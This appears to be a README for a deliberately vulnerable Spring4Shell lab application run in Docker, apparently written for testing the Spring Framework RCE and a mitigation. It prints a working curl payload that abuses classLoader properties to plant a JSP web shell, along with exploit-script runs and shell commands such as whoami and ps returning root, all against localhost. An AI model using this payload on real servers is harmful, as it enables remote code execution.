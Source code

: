 # Spring4Shell PoC Application

- [Spring Framework RCE, Early Announcement
](https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement) - Spring
- [Spring4Shell: Security Analysis of the latest Java RCE '0-day' vulnerabilities in Spring
](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2022-03-30-spring-core-rce.mdx) - LunaSec

## Getting started

### Run application

```bash
$ ./gradlew clean build -i
```

```bash
$ docker build . -t spring4shell
$ docker run -p 8080:8080 --name spring4shell --rm spring4shell
```

### Exploit

- [BobTheShoplifter/Spring4Shell-POC](https://github.com/BobTheShoplifter/Spring4Shell-POC)
- [craig/SpringCore0day](https://github.com/craig/SpringCore0day)

```bash
$ pip install -r requirements.txt
```

```bash
$ ./exploit.py --url http://localhost:8080/rce/greeting
[✘] http://localhost:8080/rce/greeting Not Vulnerable!
```

### Application log

```bash
# BinderControllerAdvice 설정이 없을 때
2022-04-04 10:56:02.632  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Initializing Servlet 'dispatcherServlet'
2022-04-04 10:56:02.634  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Completed initialization in 1 ms
04-Apr-2022 10:56:05.099 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deploying web application directory [/usr/local/tomcat/webapps/ROOT]
04-Apr-2022 10:56:05.123 INFO [Catalina-utility-1] org.apache.catalina.startup.HostConfig.deployDirectory Deployment of web application directory [/usr/local/tomcat/webapps/ROOT] has finished in [23] ms

# BinderControllerAdvice 설정이 있을 때
2022-04-04 10:56:02.632  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Initializing Servlet 'dispatcherServlet'
2022-04-04 10:56:02.634  INFO 1 --- [nio-8080-exec-1] o.s.web.servlet.DispatcherServlet        : Completed initialization in 1 ms
```

```bash
$ docker exec -it spring4shell cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp

$ ./exploit.py --url http://localhost:8080/tomcatwar.jsp
Vulnerable, shell ip:http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami" --output -
root

$ curl "http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=ps" --output -
  PID TTY          TIME CMD
    1 ?        00:00:19 java
   99 ?        00:00:00 ps
```

- [Spring4Shell: The zero-day RCE in the Spring Framework explained
](https://snyk.io/blog/spring4shell-zero-day-rce-spring-framework-explained/) - Snyk

```bash
$ curl -X POST \
    -H "pre:<%" \
    -H "post:;%>" \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{pre}i out.println("HACKED" + (2 + 5))%{post}i' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar' \
    -F 'class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' \
    http://localhost:8080/rce/greeting

$ curl "http://localhost:8080/tomcatwar.jsp"
HACKED7

$ docker exec -it spring4shell cat /usr/local/tomcat/webapps/ROOT/tomcatwar.jsp
<% out.println("HACKED" + (2 + 5));%>
```
